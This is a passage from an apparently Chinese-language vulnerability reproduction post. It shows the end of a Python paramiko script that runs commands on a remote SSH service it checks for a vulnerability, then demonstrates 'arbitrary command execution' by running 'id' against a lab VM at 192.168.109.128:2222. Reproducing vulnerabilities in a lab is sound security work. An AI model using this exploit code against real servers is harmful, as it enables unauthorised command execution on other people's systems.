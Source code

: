 ```

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None

if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

##### 执行任意命令

使用另外一台虚拟机，执行命令

```
python3 clint.py 192.168.109.128 2222 id
```

![](/img/in-post/2020-03-24/01.png)
